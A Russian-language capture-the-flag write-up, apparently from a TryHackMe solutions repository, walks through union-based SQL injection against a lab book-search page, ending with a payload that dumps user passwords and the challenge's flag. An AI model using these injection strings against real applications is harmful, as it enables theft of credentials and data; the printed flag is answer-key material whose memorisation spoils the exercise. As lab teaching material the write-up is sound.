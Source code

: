`' union select '1'-- -`
Приложение должно отобразить пользователю книгу с идентификатором 1, как показано здесь:



Если бы мы сначала не ограничили результат нулевыми строками, мы бы не получили вывод оператора UNION, а получили бы 
содержимое из предложения LIKE. Например, внедрив следующую строку: 

`test' union select '1'-- -`
Приложение выполнило бы следующие запросы:.



Теперь, когда у нас есть полный контроль над вторым запросом, мы можем использовать SQL- инъекцию на основе UNION 
для извлечения данных из базы данных. Цель состоит в том, чтобы сделать второй запрос похожим на следующий запрос: 

`SELECT * FROM books WHERE id = '' union select 1,2,3,4-- -`
Заставить приложение выполнить указанный выше запрос должно быть так же просто, как ввести следующий запрос:

`' union select '1' union select 1,2,3,4-- -`
Однако мы закрываем строку, которая должна быть возвращена, добавляя одинарную кавычку (') перед вторым предложением 
UNION. Чтобы запрос сработал и вернул наше второе предложение UNION, нам придется экранировать одинарную кавычку. 
Экранирование одинарной кавычки можно сделать, удвоив кавычки (''). После удвоения кавычек у нас есть следующая строка:  

`' union select '-1''union select 1,2,3,4-- -`
Вставка строки выше вернет страницу, показанную здесь:

### Задача
Используйте то, что вы узнали о SQL - инъекции на основе UNION, и воспользуйтесь уязвимой функцией поиска книг, 
чтобы получить флаг. 
 
### Ответить на вопросы ниже
```commandline
# task 10
http://10.10.255.151:5000/challenge7/login?next=http%3A%2F%2F10.10.255.151%3A5000%2Fchallenge7%2Fhome
http://10.10.255.151:5000/challenge7/signup
newuser
asd
http://10.10.255.151:5000/challenge7/login
newuser
asd
http://10.10.255.151:5000/challenge7/book?title=test
' UNION SELECT '-1''UNION SELECT 1,2,3,group_concat(password) FROM users-- -
THM{183526c1843c09809695a9979a672f09}
```
Какой флаг у этого испытания?
```commandline
THM{183526c1843c09809695a9979a672f09}
```
[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

-----------------------------------------------------------------------------------------------------------------------------


